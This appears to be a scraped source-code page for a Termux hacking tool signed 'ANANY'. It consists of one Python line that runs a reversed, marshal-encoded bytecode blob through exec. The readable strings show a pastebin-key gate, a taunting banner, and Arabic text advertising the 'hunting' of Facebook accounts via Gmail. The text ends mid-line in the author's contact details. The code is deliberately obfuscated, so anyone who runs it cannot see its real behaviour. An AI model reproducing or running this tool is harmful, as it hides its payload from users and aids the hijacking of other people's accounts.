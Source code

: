 _ = lambda __ : __import__('marshal').loads(__[::-1]);exec((_)(b'\x00\x00\x00\x04r\x06^z\x01\x00\x00\xf0\x06^z\x01\x00\x00\xf0\x06^z\x01\x00\x00\xf0\x06^z\x01\x00\x00\xf4\x06^z\x01\x00\x00\xf1\x06^y\x06\x00\x00\xf4\x06^y\x06\x00\x00\xf1\x06^x\n\x00\x00\xf0a\x80a\x80\x04\x80\x04\x00\xd8\x01\x01\x01\x03\xf0\x00\x00\x00Fs\x00\x00\x00\x01\x00\x00\x00\x06r>eludom<\x08\xfa>x<\x03\xfa\x00\x00\x00\x00\xf3\x00\xa9_\x01\xdacexe\x04\xda\x02)Nc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\xf3.\x00\x00\x00\x97\x00\x02\x00e\x00\x02\x00e\x01d\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\x02s\x9e%\x00\x00\x00\x00\x00\x04r\x06JZ\x01\x00\x00\xf0\x06JZ\x01\x00\x00\xf0\x06JZ\x01\x00\x00\xf0\x06JZ\x01\x00\x00\xf4\x06JZ\x01\x00\x00\xf1\x06JY\x06\x00\x00\xf4\x06JY\x06\x00\x00\xf1\x06JX\n\x00\x00\xf0a\x80a\x80\x04\x80\x04\x00\xd8\x01\x01\x01\x03\xf0\x00\x00\x00Fs\x00\x00\x00\x01\x00\x00\x00\x06r>eludom<\x08\xfa>x<\x03\xfa\x00\x00\x00\x00\xf3\x00\xa9_\x01\xdacexe\x04\xda\x02)Nc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\xf3\x02\x01\x00\x00\x97\x00d\x00d\x01l\x00Z\x00d\x00d\x01l\x01Z\x01d\x00d\x01l\x02Z\x02d\x00d\x01l\x01Z\x01d\x00d\x02l\x03m\x04Z\x04\x01\x00d\x00d\x01l\x05Z\x05d\x03Z\x06\x02\x00e\x02j\x07\x00\x00\x00\x00\x00\x00\x00\x00d\x04\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00j\x08\x00\x00\x00\x00\x00\x00\x00\x00Z\te\x06e\tv\x00r\x1b\x02\x00e\nd\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\x00j\x0b\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00n\x01\t\x00\x02\x00e\nd\x06\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\x0cd\x07\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00G\x00d\x08\x84\x00d\t\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00Z\r\x02\x00e\r\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\n\xe9\x00\x00\x00\x00N)\x01\xda\rBeautifulSoupz\x07[ANANY]z\x1dhttps://pastebin.com/U1RZJNbQu>\x00\x00\x00\xd8\xa7\xd9\x84\xd8\xa7\xd8\xaf\xd8\xa7\xd9\x87 \xd8\xaa\xd8\xad\xd8\xaa \xd8\xa7\xd9\x84\xd8\xb5\xd9\x8a\xd8\xa7\xd9\x86\xd9\x87 \xd8\xad\xd8\xa7\xd9\x84\xd9\x8a\xd8\xa7 \xd9\x88\xd8\xa7\xd9\x84\xd8\xaa\xd8\xad\xd8\xaf\xd9\x8a\xd8\xabu\xcc\x05\x00\x00\n\n\xe2\x96\x91\xe2\x96\x91\xe2\x96\x84\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x84\n\xe2\x96\x91\xe2\x96\x88\xe2\x96\x80\xe2\x96\x80\xe2\x96\x80\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x80\xe2\x96\x80\xe2\x96\x80\xe2\x96\x88\n \xe2\x96\x88\xe2\x96\x84\xe2\x96\x91(\xe2\x80\xa2)\xe2\x96\x91\xe2\x96\x80\xe2\x96\x88\xe2\x96\x88\xe2\x96\x80\xe2\x96\x91(\xe2\x80\xa2)\xe2\x96\x91\xe2\x96\x84\xe2\x96\x88\n\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x84\xe2\x96\x84\xe2\x96\x84\xe2\x96\x84\xe2\x96\x88\xe2\x96\x88\xe2\x96\x84\xef\xbf\xbd\xe2\x96\x84\xe2\x96\x84\xe2\x96\x88\xe2\x96\x88   \n\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x90\xe2\x96\x8c\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x91 IM FACK PEPOL BY ANANY\xe2\x80\xa2\n\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x84\xe2\x96\x88\xe2\x96\x88\xe2\x96\x84\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88 IM SEE YOU BUT YOU DONT SEE MEE\xe2\x80\xa2\n\xe2\x96\x91\xe2\x96\x80\xe2\x96\x88\xe2\x96\x88\xe2\x96\x80\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x80\xe2\x96\x88\xe2\x96\x88\xe2\x96\x80 IM ANANY KING THE TERAMUX\xe2\x80\xa2\n\xe2\x96\x91\xe2\x96\x91  \xe2\x96\x90\xe2\x96\x80\xe2\x96\xbc\xe2\x96\xbc\xe2\x96\xbc\xe2\x96\xbc\xe2\x96\xbc\xe2\x96\xbc\xe2\x96\xbc \xe2\x96\x90 IM ANANY DONT PLAY WITH ME\xe2\x80\xa2\n\xe2\x96\x91 \xe2\x96\x91  \xe2\x96\x90\xe2\x96\x84\xe2\x96\xb2\xe2\x96\xb2\xe2\x96\xb2\xe2\x96\xb2\xe2\x96\xb2\xe2\x96\xb2\xe2\x96\xb2\n \xe2\x96\x90    \xe2\x96\x91\n\n:::\'###::::\'##::: ##::::\'###::::\'##::: ##:\'##:::\'##:\n::\'## ##::: ###:: ##:::\'## ##::: ###:: ##:. ##:\'##::\n:\'##:. ##:: ####: ##::\'##:. ##:: ####: ##::. ####:::\n\'##:::. ##: ## ## ##:\'##:::. ##: ## ## ##:::. ##::::\n #########: ##. ####: #########: ##. ####:::: ##::::\n ##.... ##: ##:. ###: ##.... ##: ##:. ###:::: ##::::\n ##:::: ##: ##::. ##: ##:::: ##: ##::. ##:::: ##::::\n..:::::..::..::::..::..:::::..::..::::..:::::..:::::\n\n\n\xd8\xad\xd8\xaa \xd9\x81\xd9\x8a \xd9\x85\xd9\x82\xd9\x88\xd9\x84\xd8\xa7\xd8\xaa\xd9\x8a \xd9\x82\xd9\x84\xd8\xaf\xd9\x88\xd9\x86\xd9\x8a \xd9\x83\xd9\x85 \xd8\xa7\xd9\x86\xd9\x83\xd9\x85 \xd9\x81\xd8\xb4\xd9\x84\xd9\x87\n.........................................\n\xd8\xa7\xd9\x86\xd9\x8a \xd8\xb9\xd9\x86\xd8\xa7\xd9\x86\xd9\x8a \xd8\xba\xd9\x8a\xd8\xb1 \xd9\x85\xd8\xb3\xd9\x88\xd8\xa7\xd9\x84 \xd8\xb9\xd9\x86 \xd8\xa7\xd9\x8a \xd8\xb4\xd9\x8a \xd9\x81 \xd8\xa7\xd8\xaf\xd8\xa7\xd9\x87 \xd8\xa7\xd8\xa8\xd8\xaf\xd8\xa7\xd8\xa7 \n.........................................\n\xd8\xa7\xd9\x88\xd9\x84 \xd8\xa7\xd8\xaf\xd8\xa7\xd9\x87 \xd8\xb5\xd9\x8a\xd8\xaf \xd8\xb9 \xd8\xaa\xd8\xb1\xd9\x8a\xd9\x85\xd9\x83\xd8\xb3 \xd9\x85\xd9\x82\xd8\xaf\xd9\x85\xd9\x87 \xd9\x85\xd9\x86 \xd8\xb9\xd9\x86\xd8\xa7\xd9\x86\xd9\x8a \xd8\xb5\xd9\x8a\xd8\xaf \xd9\x81\xd9\x8a\xd8\xb3 \xd8\xb9 \xd8\xa7\xd9\x84 gmail\n\n\xd8\xb5\xd8\xb9\xd8\xa8 \xd8\xaa\xd9\x88\xd8\xb5\xd9\x84\xd9\x86\xd9\x8a \xd9\x83\xd9\x84\xd8\xa7\xd9\x85\xd9\x8a \xd9\x84\xd9\x84\xd9\x8a\xd9\x82\xd9\x84\xd8\xaf\xd9\x88 \xd9\x81\xd9\x8a\xd8\xa7 \xd8\xb9\xd9\x86\xd8\xa7\xd9\x86\xd9\x8a\n\n     [ Made By ANANY ]\n     [ \xe2\x88\x9a ] Telegram : @Exta_anany\n     [ \xe2\x88\x9a ] fasebok  : Naqibullah Wahab\n     [ \xe2\x88\x9a ] insta    :